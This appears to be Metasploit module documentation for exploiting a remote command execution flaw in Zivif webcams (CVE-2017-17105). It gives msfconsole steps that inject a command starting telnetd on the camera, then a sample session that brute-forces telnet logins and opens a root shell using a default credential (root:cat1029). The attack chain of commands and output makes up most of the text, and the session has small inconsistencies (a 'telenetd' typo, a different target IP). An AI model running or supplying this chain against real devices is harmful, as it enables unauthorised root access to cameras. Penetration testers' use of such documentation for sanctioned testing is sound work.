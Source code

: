 ## Description


  This module exploits a remote command execution vulnerability in Zivif webcams.  This is known to impact versions prior to and including v2.3.4.2103.  Exploit was reported in CVE-2017-17105.  

  This module has been tested successfully on version v2.3.4.2103 and V4.7.4.2121.

## Vulnerable Application

  Unfortunately a virtual copy of this camera is not avaiable.  


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/http/zivif_ipcheck_exec`
  3. Do: `set rhost [IP]`
  4. Do: `set PAYLOAD payload/cmd/unix/generic`
  5. Do: `set CMD telnetd`
  6. Do: `exploit`
  7. Port 23 will now be open on the target


## Scenarios


  ```
  msf5 > use exploit/unix/http/zivif_ipcheck_exec
  msf5 exploit(unix/http/zivif_ipcheck_exec) > set rhost 192.168.0.35
  rhost => 192.168.0.35
  msf5 exploit(unix/http/zivif_ipcheck_exec) > set PAYLOAD payload/cmd/unix/generic
  PAYLOAD => cmd/unix/generic
  msf5 exploit(unix/http/zivif_ipcheck_exec) > set CMD telenetd
  CMD => telenetd
  msf5 exploit(unix/http/zivif_ipcheck_exec) > exploit 

  [*] Sending request
  [+] Command sent successfully
  [*] Exploit completed, but no session was created.
  msf5 exploit(unix/http/zivif_ipcheck_exec) > 
  msf5 exploit(unix/http/zivif_ipcheck_exec) > back
  msf5 > use auxiliary/scanner/telnet/telnet_login
  msf5 auxiliary(scanner/telnet/telnet_login) > set RHOSTS 192.168.0.0/24
  RHOSTS => 192.168.0.0/24
  msf5 auxiliary(scanner/telnet/telnet_login) > set USERPASS_FILE /root/creds
  USERPASS_FILE => /root/creds
  msf5 auxiliary(scanner/telnet/telnet_login) > set threads 10
  threads => 10
  msf5 auxiliary(scanner/telnet/telnet_login) > exploit 

  [!] 192.168.0.34:23          - No active DB -- Credential data will not be saved!
  [+] 192.168.0.34:23          - 192.168.0.34:23 - Login Successful: root:cat1029
  [*] 192.168.0.34:23          - Attempting to start session 192.168.0.34:23 with root:cat1029
  [*] Command shell session 1 opened (0.0.0.0:0 -> 192.168.0.34:23) at 2020-06-15 19:47:14 +0000

  [-] 192.168.0.34:23          - 192.168.0.34:23 - LOGIN FAILED: admin:cat1029 (Incorrect: )
  [*] 192.168.0.34:23          - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/telnet/telnet_login) > 
  msf5 auxiliary(scanner/telnet/telnet_login) > sessions 

  Active sessions
  ===============

    Id  Name  Type   Information                         Connection
    --  ----  ----   -----------                         ----------
    1         shell  TELNET root:cat1029 (192.168.0.34:23)  0.0.0.0:0 -> 192.168.0.34:23 (192.168.0.34)

  msf5 auxiliary(scanner/telnet/telnet_login) > 


  ```




